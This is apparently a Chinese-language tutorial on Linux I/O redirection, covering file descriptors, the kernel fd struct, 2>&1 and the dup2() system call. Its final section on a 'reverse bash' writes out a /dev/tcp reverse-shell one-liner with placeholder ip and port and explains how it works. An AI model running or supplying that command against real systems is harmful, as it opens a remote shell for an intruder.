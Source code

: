 > I/O重定向基础知识为文件描述符

![c6e81a03-55a3-43ee-b175-9d9d7b6d23c8](linux I-O重定向_files/c6e81a03-55a3-43ee-b175-9d9d7b6d23c8)
文件描述符是文件描述表的下标，文件描述表中存的指向文件结构体的指针。
```
struct fd { 
     struct file *file;//指向文件表的指针 
     unsigned int flags; 
    };
```
而standin，standout，standerr就是三个FILE *指针
```
FILE* stdin
FILE* stdout
FILE* stderr
```
上述代码对应上表，`unsigned int flags; `就是`fd flags`，而`file *file`则是`file ptr`，而在linux里，`flags`只有一个值`close-on-exec`，即`FD_CLOEXEC`
## 重定向
```
2>&1
```
在重定向前，是这样的：
![8bbdb068-98af-4e16-ac68-13f6b9f14d52.png](linux I-O重定向_files/8bbdb068-98af-4e16-ac68-13f6b9f14d52.png)
重定向之后，是这样的：
![61d2f081-841b-4faf-bac5-861ef904c67e.png](linux I-O重定向_files/61d2f081-841b-4faf-bac5-861ef904c67e.png)
这是因为`2>&1`是通过`dup2()`这个系统调用实现的。
**int dup2(int oldfd, int newfd); **:
```
dup2() create a copy of the file descriptor oldfd. After a successful return from dup() or dup2(), the old and new file descriptors may be used interchangeably. They refer to the same open file description (see open(2)) and thus share file offset and file status flags; for example, if the file offset is modified by using lseek(2) on one of the descriptors, the offset is also changed for the other.
```
`dup2()`和`dup()`都是复制一个现存的文件描述符(新的复制老的)，然后指向相同的文件结构体，但是flags不同，因为新的上会被关闭。
> 这儿关于dup2()的实现推荐一个文章[Linux内核分析：dup、dup2的实现](https://www.cnblogs.com/lit10050528/p/6206235.html)，源码非常清楚了，把老的指针复制(赋值)给新的

找到一个非常漂亮的图
![f1ce6789-2172-4d44-af04-11d93c860026.png](linux I-O重定向_files/f1ce6789-2172-4d44-af04-11d93c860026.png)
## 反弹bash
```
bash > /dev/tcp/ip/port 0<&1
```
先是`standout`重定向到`/dev/tcp/ip/port`，接着`standin`的再被复制成`standout`
> 这儿说的standin,standout并非是指针，而是0,1的默认名称
|Handle|Name|Description|
| - | - | - |
|0|stdin|标准输入|
|1|stdout|标准输出|
|2|stderr|标准错误输出|